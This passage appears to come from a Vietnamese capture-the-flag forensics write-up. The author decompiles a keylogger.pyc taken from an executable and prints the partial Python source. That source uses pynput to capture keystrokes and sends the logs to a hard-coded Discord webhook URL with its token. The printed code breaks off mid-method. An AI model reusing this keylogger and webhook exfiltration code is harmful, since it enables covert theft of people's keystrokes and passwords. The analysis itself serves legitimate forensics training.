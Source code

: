 ![1718200845881](image/writeup/1718200845881.png)
- Mình sử dụng `pycdc` để decompile vì web pyc decompile ko xài được, thì được code sau:
```
$ ./pycdc '/mnt/d/FORENSICS/challenge/L3akCTF/The Spy/L3AK.exe_extracted/keylogger.pyc'
# Source Generated with Decompyle++
# File: keylogger.pyc (Python 3.12)

from pynput.keyboard import Listener, Key
from threading import Timer
from dhooks import Webhook
WEBHOOK_URL = 'https://discord.com/api/webhooks/1240207195849883739/IrZDxAPOwxaHyUOZCcqLVQSRhl4FjwaYzaCUJTvEdmf5Y_jKmzxUMuz2jp3UyRnrvfsl'
INTERVAL = 30
hjlkhas = 'aHR0cHM6Ly9kaXNjb3JkLmdnL3Bzd1R0VW5wSkM='

class Keylogger:

    def __init__(self, WB_URL, interval = (30,)):
        self.WB_URL = WB_URL
        self.interval = interval
        self.log = ''
        self.special_keys = {
            Key.esc: '[ESC]',
            Key.backspace: '[BACKSPACE]',
            Key.tab: '\t',
            Key.enter: '\n',
            Key.space: ' ' }
        self.current_keys = set()


    def _send_info(self, log):
        if log != '':
```